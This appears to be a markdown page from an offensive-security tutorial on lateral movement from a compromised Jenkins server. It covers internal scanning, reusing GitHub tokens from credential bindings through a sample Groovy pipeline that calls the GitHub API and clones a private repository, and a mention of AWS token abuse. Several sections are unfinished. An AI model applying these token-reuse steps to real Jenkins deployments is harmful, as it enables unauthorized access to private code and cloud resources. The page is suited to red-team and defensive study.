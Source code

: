 # Lateral Movement

## Internal Network Scan
- When Jenkins is deployed on premise, it has to potential to reach multiple corporate services and endpoints
- When Jenkins is deployed in cloud, it is reachable to limited on premise corporate services through direct connect.
- Therefore, it is worth performing a network scan to find the reachable services, enumerate ports and see if we can exploit any of the services in corp environment.
- We can also use build logs to find if any such corp environment is accessed through analyzing build logs.

## Enumerating services with access tokens from credential bindings
- If we are successful in dumping tokens or reusing tokens in credentials bindings, we should review what kind of privileges that token hold and what we can do with it.
- For our understanding, let us take an example of github access token.
  - We can try to enumerate various services the token has privileges to perform.
  - So imagine you have access to an admin level personal access token, then there a whole world of possibilites - Dump credentials, backdoor code, etc
  - We can also have access to private repositories and we can view the cloned contents in the workspace :) 
``` Groovy
pipeline{
    agent any
    stages{
        stage('Recon with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                    curl -s -L \
                        -H "Accept: application/vnd.github+json" \
                        -H "Authorization: Bearer $TOKEN"\
                        -H "X-GitHub-Api-Version: 2022-11-28" \
                        https://api.github.com/user
                    '''
                }
            }
        }
        stage('Clone a private repo with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                        git clone https://dibsy:$TOKEN@github.com/dibsy/a-temp-private-repo.git
                    '''
                }
            }
        }
    }
}
```

<img src="lateral-api.png">
          
<img src="lateral-private.png">

## Creating resources with access tokens
- Similarly like Github, we can try to enumerate services with the AWS Access Token
- If we have enough privileges, we can create new AWS services with the AWS tokens
- 

## Executing groovy console commands via dumped jenkins-api token.

